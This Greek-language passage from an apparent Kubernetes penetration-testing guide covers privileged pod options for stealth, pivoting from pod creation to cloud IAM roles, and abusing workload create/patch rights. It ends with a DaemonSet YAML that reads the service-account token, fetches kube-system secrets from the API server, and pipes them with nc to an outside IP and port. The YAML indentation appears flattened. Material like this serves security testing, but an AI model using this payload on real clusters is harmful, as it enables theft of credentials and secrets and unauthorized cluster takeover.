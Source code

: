 #### Stealth

Πιθανώς θέλετε να είστε **πιο διακριτικοί**, στις επόμενες σελίδες μπορείτε να δείτε τι θα μπορούσατε να έχετε πρόσβαση αν δημιουργήσετε ένα pod ενεργοποιώντας μόνο ορισμένα από τα προαναφερθέντα δικαιώματα στο προηγούμενο πρότυπο:

* **Privileged + hostPID**
* **Privileged μόνο**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**

_Μπορείτε να βρείτε παραδείγματα για το πώς να δημιουργήσετε/εκμεταλλευτείτε τις προηγούμενες ρυθμίσεις privileged pods στο_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Pod Create - Move to cloud

Αν μπορείτε να **δημιουργήσετε** ένα **pod** (και προαιρετικά έναν **λογαριασμό υπηρεσίας**) μπορεί να είστε σε θέση να **αποκτήσετε δικαιώματα σε περιβάλλον cloud** αναθέτοντας **ρόλους cloud σε ένα pod ή σε έναν λογαριασμό υπηρεσίας** και στη συνέχεια να έχετε πρόσβαση σε αυτό.\
Επιπλέον, αν μπορείτε να δημιουργήσετε ένα **pod με το namespace δικτύου του κόμβου** μπορείτε να **κλέψετε τον ρόλο IAM** της **περίπτωσης** του **κόμβου**.

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}

### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**

Είναι δυνατόν να εκμεταλλευτείτε αυτές τις άδειες για να **δημιουργήσετε ένα νέο pod** και να αποκτήσετε δικαιώματα όπως στο προηγούμενο παράδειγμα.

Το παρακάτω yaml **δημιουργεί ένα daemonset και εξάγει το token του SA** μέσα στο pod:
```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: kube-system
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
volumeMounts:
- mountPath: /root
```